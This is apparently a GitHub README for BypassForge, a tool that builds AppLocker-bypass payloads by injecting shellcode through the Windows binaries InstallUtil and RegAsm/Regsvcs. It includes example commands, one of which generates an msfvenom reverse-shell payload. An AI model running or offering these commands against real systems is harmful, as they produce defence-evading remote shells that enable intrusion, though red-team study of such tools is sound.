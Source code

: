 # BypassForge
Generate Payloads utilizing Process Injection techniques for Living-off-the-Land Applocker Bypass Executables like InstallUtil and RegAsm/Regsvcs in Windows. Currently only two LOL Binaries are supported (InstallUtil & RegAsm/Regsvcs) for which the shellcode is loaded in the generated PE's memory. Later on, other Process Injection technique and binaries will be added to the tool.

# Example Usage
The script can be used in two modes:
- **MSF Mode**
  
Parameters like listener IP, listener port and MSF payload type are specified, based on which MSFVenom payload is generated and added to the final binary.
```
python BypassForge.py -b InstallUtil,RegAsm -lh 127.0.0.1 -lp 8080 --payload windows/x64/shell_reverse_tcp
```
![image](https://github.com/user-attachments/assets/047de769-d90f-4350-b7c9-96ce3382d891)


- **Custom Shellcode Mode**
  
Custom shellcode which are created using 3rd party tools like micr0_shell (https://github.com/senzee1984/micr0_shell) or manually created is specified. This shellcode is added to the final payload binary.
```
python BypassForge.py -b InstallUtil,RegAsm --custom --hex-shellcode 4831d265488b42604<SNIP>c9515151514989c84989c9ffd0
```
![image](https://github.com/user-attachments/assets/c60a0235-f614-4823-9fc9-606c4f5e59be)
